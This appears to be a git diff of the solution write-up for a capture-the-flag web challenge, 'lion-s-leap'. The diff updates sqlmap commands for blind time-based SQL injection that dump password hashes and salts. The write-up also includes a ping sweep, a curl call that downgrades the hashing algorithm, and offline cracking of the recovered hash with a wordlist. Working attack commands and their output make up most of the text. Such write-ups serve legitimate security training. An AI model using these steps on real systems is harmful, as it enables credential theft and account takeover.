

Fix bcrypt to 16 + solution

Changed region(s): [[0.0, 0.0, 1.0, 1.0], [0.7695, 0.0, 0.9234, 0.0307], [0.9234, 0.7063, 0.9542, 0.737]]

diff --git a/challenges/web/lion-s-leap/solution/README.md b/challenges/web/lion-s-leap/solution/README.md
@@ -31,6 +31,7 @@ So admin userid is 1.
 ## SQLi
 
 SQL injection is possible in the getUserID endpoint. Since we do not get any data back and is not use in a login form, we can use a blind time-based injection to get the hash of the password. Using SQLMap, since this type of injection is really slow, we can order by id, which will start with 1 and therefore start with the admin and we can also use the ssh client offered to reduce network lag with the password `marbled-casino-zodiac-composer` and do a ping sweep to detect the ip of the webserver.
+Since the injection is on the username, we should use a username that doesn't exist. Otherwise, the server calculate the hash everytime, which takes a lot of time for bcrypt 16. 
 
 ```shell
 ssh user@<ip_client>
@@ -40,10 +41,10 @@ for i in {1..254} ;do (ping -c 1 <base_ip>.$i | grep "bytes from" &) ;done
 ```
 
 ```shell
-sqlmap -u "http://$ip:$port/login"  --data 'username=admin&password=test' -C id,password_hash,salt -T Users -D userDB --dump  --batch --dbms MySQL -p username --technique=T
+sqlmap -u "http://$ip:$port/login"  --data 'username=ausndbaiusdbniand&password=test' -C id,password_hash,salt -T Users -D userDB --dump  --batch --dbms MySQL -p username --technique=T
 ```
 
-It should take a minimum of 30 minutes, but we can stop quickly, when we see that it starts with `$2a$10$`, which is 'bcrypt' with 10 rounds. It is very slow to crack.
+When we see that it starts with `$2a$16$`, which is 'bcrypt' with 16 rounds, we can stop since it is very slow to crack.
 
 ![alt text](sqlmap_1.png)
 
@@ -52,7 +53,7 @@ It should take a minimum of 30 minutes, but we can stop quickly, when we see tha
 Get the hashing algorithms:
 
 ```shell
-sqlmap -u "http://$ip:$port/login"  --data 'username=admin&password=test' -C id,algo,round -T HashingAlgorithm -D userDB --dump  --batch --dbms MySQL -p username --technique=T
+sqlmap -u "http://$ip:$port/login"  --data 'username=ausndbaiusdbniand&password=test' -C id,algo,round -T HashingAlgorithm -D userDB --dump  --batch --dbms MySQL -p username --technique=T
 
 Database: userDB
 Table: HashingAlgorithm
@@ -76,19 +77,19 @@ curl "http://$ip:$port/changeHash" \
   --insecure
 ```
 
-Next time, the admin login, the password will be changed. In the information given in the challenge, we can see it should be every 30 seconds.
+Next time, the admin login, the password will be changed. In the information given in the challenge and in the admin_login.sh script, we can see it should be every 30 seconds.
 
 ## SQLi 2
 
 Running SQLMap again, we can see that the hash is now blake2b with 1 round.
 
 ```shell
-sqlmap -u "http://$ip:$port/login"  --data 'username=admin&password=test' -C id,password_hash,salt -T Users -D userDB --dump  --batch --dbms MySQL -p username --technique=T --flush-session
+sqlmap -u "http://$ip:$port/login"  --data 'username=ausndbaiusdbniand&password=test' -C id,password_hash,salt -T Users -D userDB --dump  --batch --dbms MySQL -p username --technique=T --flush-session
 
 +----+------------------------------------------------------------------+------------+
 | id | password_hash                                                    | salt       |
 +----+------------------------------------------------------------------+------------+
-| 1  | 8eddab594c92c9dd9506bd22b38fd4c0fff439a63b698f37a1f21ea6f0072717 | ajg835Eoef |
+| 1  | 1a5708112d2d7df23e4b2d5b60d5470e8cd01ce48ed8d5dae8d32901d91dc326 | WKgDlQLWIE |
 +----+------------------------------------------------------------------+------------+
 ```
 
@@ -99,7 +100,7 @@ sqlmap -u "http://$ip:$port/login"  --data 'username=admin&password=test' -C id,
 Using a simple script like solve.go, we can crack the hash in a few seconds.
 
 ```shell
-go run solve.go 8eddab594c92c9dd9506bd22b38fd4c0fff439a63b698f37a1f21ea6f0072717 ajg835Eoef rockyou.txt
+go run solve.go 1a5708112d2d7df23e4b2d5b60d5470e8cd01ce48ed8d5dae8d32901d91dc326 WKgDlQLWIE rockyou.txt
 Password found:  drakthull1
 ```
 
